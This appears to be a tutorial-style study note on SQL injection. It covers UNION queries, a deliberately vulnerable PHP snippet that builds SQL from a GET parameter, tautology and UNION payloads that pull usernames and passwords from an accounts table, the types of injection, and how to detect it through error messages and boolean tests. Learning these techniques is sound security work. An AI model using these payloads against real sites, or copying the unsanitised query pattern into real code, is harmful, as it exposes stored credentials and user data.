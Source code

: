 # SQLi

SQL statement structure

```text
> SELECT <column list> FROM <table> WHERE <conditions>

> SELECT name, description FROM products WHERE id=9;
> SELECT 22, 'string', 0x12, 'another string';
```

UNION performs an union between two results:

```text
> <select statement> UNION <second select statement>;
```

If a table contains duplicate rows, use the DISTINCT operator to filter out duplicate entries

```text
> SELECT DISTINCT <field list> <remainder of statement>;
```

UNION statement implies DISTINCT by default.

You can perform UNION with chosen data:

```text
> SELECT Name, Description FROM Products WHERE ID='2' UNION SELECT 'Example', 'Data';
```

Example of union:

```text
> SELECT Name, Description FROM Products WHERE ID='2' UNION SELECT Username, Password FROM Accounts;
```

This query will get the name and description of the item which ID is 3 and all usernames and passwords from the Accounts table

Comments:

```text
> SELECT field FROM table; # this is a comment
> SELECT field FROM table; -- this is another comment
```

Web applications when using databases must:

1. Connect to the database
2. Submit the query to the database
3. Retrieve the results

Example of php connection to MySQL:

```text
$dbhost='1.1.1.1';
$dbuser='username';
$dbpass='password';
$dbname='database';

$connect = mysqli_connect($dbhost, $dbuser, $dbpass, $dbname);
$query = "SELECT Name, Description FROM Products WHERE ID='2' UNION SELECT Username, Password FROM Accounts;";

$results = mysqli_query($connection, $query);
display_results($results);
```

mysqli\_query\(\) is a function which submits the query to the database  
display\_results\(\) function renders the data

The query above is a static query, and most of the time this is not what you find in the real world. Generally you want to query the database based on what the client is trying to do, like searching for a product by its name or ID:

```text
$id = $_GET['id'];

<ommited db variables>

$connect = mysqli_connect($dbhost, $dbuser, $dbpass, $dbname);
$query = "SELECT Name, Description FROM Products WHERE ID='$id';";

$results = mysqli_query($connection, $query);
display_results($results);
```

In this case, you have a query which uses the GET id parameter to build a query. This means the client can manipulate the query and construct it in a way that it returns information the client is not suppose to receive. Let's say the client provide the following information as the id:

```text
' OR 'a'='a
```

the query would become:

```text
> SELECT Name, Description FROM Products WHERE ID='' OR 'a'='a';
```

Setting up two conditions:

* ID must be empty OR
* an always true condition \(A will always be equal to A\)

Since the second condition will always be fullfilled, this basically means that you can return the Name and Description from the table products whenever A = A, in another words, it will return the entier table.

Is always possible to exploit the UNION command:

```text
' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a
```

So the query becomes:

```text
> SELECT Name, Description FROM Products WHERE ID='' UNION SELECT Username, Password FROM Accounts WHERE 'a'='a';
```

So you can get informations from tables that are not even being used, in this case, you can basically dump the entire database through an SQLi.

How critical is a SQLi?

1. Depends on the DBMS \(Mysql, SQL server, Oracle DB, etc.\)
2. Some DBMS allows you to run commands in the host machine, so you can get information for a foothold or even a foothold itself \(shell, LFI, host OS information\)

What are the types of SQLi attacks?

* In-Band SQL
* Error-Based SQL
* Blind SQLi

in-band SQL uses the same channel to inject and receive information, like an webapp page field.

Error-based is when you force the DBMS to output error messages and use that to perform data exfiltration, like via reports or warning e-mails

Blind SQL means the application does not reflect back the reply of you query, this means you can't see the output and needs to rely on true-false / binary conditions and requests, like 'Is the first letter of the user A? If not, waits 3 seconds before replying', and keep asking the database until you can gather enough information.

When and Where SQLi can be found?

Generally in input fields where the client can insert data \(injection points\), then manipulate the input in a way you can take control over the dynamic query.

The most common way to do that \(script kiddie shit here\) is to input characters which breaks the SQL query and see if the application returns an error, like an '

Not all inputs are used to build a query, so you need to checkout all the different input parameters and check which is used for database data retrieval.

Input parameters are carried through GET and POST requests.

Beyond trying an ', you can:

* Use " as well
* SELECT, UNION and other sql commands
* Comments, \# or --

How do I know that the I found an SQLi?

When you break the sqli using the characters above, the application may throw out an error, every DMBS responds to incorrect sql queries differently:

MS-SQL:

```text
Incorrect syntax near [query snippet]
```

MySQL:

```text
You have an error in your SQL syntax. Check the manual that corresponds /
to your MySQL server vrsion for the right syntax to use near [query snippet]
```

Finding these errors means is very likely the application is vulnerable. In the real world, most websites does not display such errors, in this case, you need to test using binary/true-false/boolean based queries.

Remember, you generally can't see the query, so you need to wrap your brain around the site and understand the input fields and how the information return relates to it so you can start building how it works.

Adding a second required condition is a way to test that, add to the query

```text
and 'a'='a
```

And see if it still works. Then try to set a second required condition which is not met, like:

```text
and 'a'='b
```

And see if it stops working

